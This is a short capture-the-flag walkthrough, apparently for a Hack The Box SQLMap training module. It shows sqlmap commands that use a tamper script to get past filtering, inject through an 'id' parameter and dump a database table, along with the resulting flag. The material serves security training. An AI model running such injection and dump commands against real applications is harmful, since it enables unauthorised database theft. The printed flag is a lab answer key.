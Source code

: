 # Skills Assessment

You are given access to a web application with basic protection mechanisms. Use the skills learned in this module to find the SQLi vulnerability with SQLMap and exploit it accordingly. To complete this module, find the flag and submit it here.

## Walkthrough

What's the contents of table final\_flag?

```bash
#catch http request from adding shoes into the cart
sqlmap -r req.txt --dump --batch --tamper=between -p 'id'
#for faster result
sqlmap -r req.txt --dump --batch --tamper=between -p 'id' --technique=T -T final_flag -D production --dbms=MySql
Database: production
Table: final_flag
[1 entry]
+----+--------------------------+
| id | content                  |
+----+--------------------------+
| 1  | HTB{n07_50_h4rd_r16h7?!} |
+----+--------------------------+
```
